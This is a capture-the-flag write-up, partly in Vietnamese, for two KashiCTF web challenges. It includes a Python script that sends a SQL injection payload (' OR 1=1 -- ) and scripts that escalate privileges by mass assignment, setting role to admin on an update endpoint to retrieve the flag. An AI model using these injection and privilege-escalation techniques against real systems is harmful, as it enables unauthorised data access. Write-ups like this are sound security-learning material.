 # Web

## Corporate Life 1
### Payload
```python
import httpx

base_url = "http://kashictf.iitbhucybersec.in:65107/api"

payload = {"filter": "' OR 1=1 -- "}

response = httpx.post(base_url + "/list-v2", json=payload)

if response.status_code == 200:
    with open("output.txt", "w") as file:
        file.write(response.text)
    print("Response written to 'output.txt'")
else:
    print(f"Request failed with status code: {response.status_code}")
```


## SuperFastAPI

### Tìm endpoint
Dùng redoc để tìm tài liệu API:

```
http://kashictf.iitbhucybersec.in:35798/redoc
```

### Phát hiện các endpoint quan trọng:

- `/create/{username}` → Tạo tài khoản
- `/update/{username}` → Cập nhật thông tin tài khoản
- `/flag/{username}` → Lấy flag

Tạo tài khoản
Gửi request để tạo tài khoản của mình:

```python
import requests

username = "abc"
url = f"http://kashictf.iitbhucybersec.in:35798/create/{username}"
headers = {
    "Content-Type": "application/json"
}
data = {
    "fname": "John",
    "lname": "Doe",
    "email": "john@example.com",
    "gender": "male"
}

response = requests.post(url, headers=headers, json=data)
print(response.status_code, response.text)

```


Sửa role và lấy flag:

```python
import requests

username = "abc"
update_url = f"http://kashictf.iitbhucybersec.in:35798/update/{username}"
flag_url = f"http://kashictf.iitbhucybersec.in:35798/flag/{username}"

headers = {
    "Content-Type": "application/json"
}

update_data = {
    "role": "admin"
}

update_response = requests.put(update_url, headers=headers, json=update_data)
print("[+] Update Response:", update_response.status_code, update_response.text)

if update_response.status_code == 200:
    flag_response = requests.get(flag_url)
    print("[+] Flag:", flag_response.text)
else:
    print("[-] Error!")

```

Kết quả:
```
KashiCTF{m455_4551gnm3n7_ftw_LBBJ23ZSV}
```
